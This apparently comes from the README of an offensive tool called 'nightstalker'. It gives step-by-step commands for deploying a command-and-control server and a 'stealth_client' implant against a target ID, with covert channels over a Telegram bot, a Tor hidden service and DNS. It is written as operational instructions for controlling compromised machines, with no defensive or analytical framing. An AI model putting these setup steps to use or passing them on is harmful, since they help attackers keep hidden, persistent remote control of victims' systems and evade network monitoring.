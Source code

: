 ```bash
python -m nightstalker.c2.stealth_client \
  --target-id TARGET001 \
  --channel telegram \
  --bot-token YOUR_BOT_TOKEN \
  --chat-id YOUR_CHAT_ID
```

## 🌐 Tor Hidden Service Setup

### 1. Install Tor

```bash
# Ubuntu/Debian
sudo apt install tor

# CentOS/RHEL
sudo yum install tor

# macOS
brew install tor
```

### 2. Setup C2 Server

```bash
nightstalker c2 deploy
# Select option 2 (Tor)
# The system will create a hidden service automatically
```

### 3. Deploy Client

```bash
python -m nightstalker.c2.stealth_client \
  --target-id TARGET001 \
  --channel tor \
  --onion-address YOUR_ONION_ADDRESS
```

## 🔍 DNS C2 Setup

### 1. Domain Setup

1. Register a domain (e.g., `c2.example.com`)
2. Configure DNS records
3. Set up DNS server if needed

### 2. Setup C2 Server

```bash
nightstalker c2 deploy
# Select option 3 (DNS)
# Enter domain name and DNS server
```
